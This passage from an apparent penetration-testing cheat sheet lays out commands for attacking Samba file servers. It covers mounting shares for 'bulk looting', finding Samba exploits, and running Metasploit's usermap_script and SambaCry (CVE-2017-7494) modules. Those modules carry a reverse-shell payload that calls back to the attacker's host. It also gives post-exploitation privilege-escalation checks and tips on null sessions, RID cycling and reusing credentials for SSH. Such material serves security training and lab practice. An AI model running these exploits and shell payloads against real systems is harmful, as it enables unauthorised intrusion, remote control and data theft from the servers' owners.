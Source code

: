 8) Mount share for bulk looting
```bash
sudo mkdir -p /mnt/smb
# Try guest first; adjust vers=1.0 for SMB1 servers
sudo mount -t cifs "//$RHOST/SHARE" /mnt/smb -o guest,vers=1.0
# Or with creds (example)
# sudo mount -t cifs "//$RHOST/SHARE" /mnt/smb -o username=USER,password='PASS',vers=2.1
```

9) Map version to vulns (quick triage)
```bash
# From Nmap version string, search known Samba CVEs
searchsploit samba | egrep -i "usermap|trans2|known pipe|cve-2017-7494|3\.0\.20|3\.5|4\."
```

10) Metasploit exploitation examples

- Samba usermap_script (commonly demoed; Samba 3.0.20-era)
```bash
msfconsole -q
use exploit/multi/samba/usermap_script
set RHOSTS $RHOST
# RPORT defaults to 139; set if needed: set RPORT 139
set PAYLOAD cmd/unix/reverse
set LHOST $LHOST
run
```

- SambaCry CVE-2017-7494 (requires a writable share)
```bash
msfconsole -q
use exploit/linux/samba/is_known_pipename
show options
set RHOSTS $RHOST
# If auth is needed:
# set SMBUser USER
# set SMBPass PASS
set LHOST $LHOST
run
```

11) Post-exploitation basics (Linux)
```bash
id; uname -a
whoami && hostname && ip a
# Quick SUID check for privesc
find / -perm -4000 -type f 2>/dev/null
# Check Samba config (on compromised host)
cat /etc/samba/smb.conf 2>/dev/null
```

## Practical tips
- Always attempt null/guest first (-N or -u '' -p '').
- Switch SMB dialects when you get protocol errors:
  - smbclient -m SMB1 (older Samba)
  - mount.cifs -o vers=1.0/2.0/2.1/3.0 depending on target.
- smbclient tips: use recurse ON and prompt OFF to bulk download; use lcd to set local dir.
- smbmap is excellent for quick permission mapping and targeted file searches.
- enum4linux(-ng) often pulls usernames via RID cycling even with null sessions.
- rpcclient can enumerate users/groups without creds on misconfigured Samba.
- If you find credentials, try:
  - SMB share access (smbmap/smbclient)
  - SSH login (often the real goal on Linux)
- Samba RCE paths:
  - usermap_script exploit for very old Samba 3.0.20 (Metasploitable/legacy).
  - SambaCry (CVE-2017-7494) when a world-writable share exists and the server loads shared libraries via a named pipe—Metasploit module handles plumbing.